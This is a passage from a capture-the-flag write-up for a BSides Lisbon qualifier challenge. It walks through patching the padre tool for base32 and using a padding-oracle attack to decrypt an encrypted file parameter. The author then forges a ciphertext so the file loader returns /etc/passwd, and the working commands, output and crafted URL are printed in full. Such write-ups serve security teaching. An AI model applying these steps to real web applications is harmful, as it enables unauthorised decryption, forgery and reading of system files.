 Several tools exist allowing to exploit a padding oracle attack; however, I didn't find a tool supporting base32 encoding (by default base64 is supported). So , we have no choice to modify an existing tool to perform the attack. Because I'm lazy, I didn't want to spend too much time writing code, so forget about `padbuster` (not touching Perl anymore, thanks!), [`python-paddingoracle`](https://github.com/mwielgoszewski/python-paddingoracle) (Python2) or [`padding-oracle-attacker`](https://github.com/KishanBagaria/padding-oracle-attacker) (Typescript). Finally, I found a tool named [`padre`](https://github.com/glebarez/padre) developed in Go!

We just need to replace `base64` by `base32` inside the factory.go file and rebuild the tool :)

Let's see if the `padre` tool can decrypt the `v` parameter:

```bash
$ ./padre -u "https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=dmFzZS5qcGc%3D&v=$" "7D2TG4KNV2FR5TYO2KCPJ6N64JQDGOEIMLCWMMPQD5LTMMC5MJ6Q===="        
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 16
[!] mode: decrypt
[1/1] vase.jpg\x08\x08\x08\x08\x08\x08\x08\x08                                                                
```

And that's it! The `v` parameter contains the name of the file encrypted.

With the padding oracle attack, we can decrypt but we can also encrypt any data we want.
Now, the workflow is pretty straightforward, we just need to encrypt the name of the file containing the flag. We tried with `flag.txt` and `flag.png` without any success, the application returned an internal server error. Weird! Let's try to retrieve the `/etc/passwd` to identify the users available on the system:

```bash
$ ./padre -u "https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=ZmxhZy5qcGc%3D&v=$"  -b 16 -enc "/etc/passwd"              1 ⨯
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[!] mode: encrypt
[1/1] 2KJ2AWW6N5XBG723JB6NDENFUFZWOZLOMVZWO3DCNZTWK6TJM5ZA====
```

The final URL is:

* <https://quals.bsideslisbon.org/2bd1a6cd3c5eba0ebe9b2ec7d5611827910a7c26/load?f=L2V0Yy9wYXNzd2Q%3D&v=2KJ2AWW6N5XBG723JB6NDENFUFZWOZLOMVZWO3DCNZTWK6TJM5ZA%3D%3D%3D%3D>

Note: The value of the `f` parameter needs to be modified to correspond to the filename encrypted. Here is the base64 encoding of `/etc/passwd`.

And we get the flag:
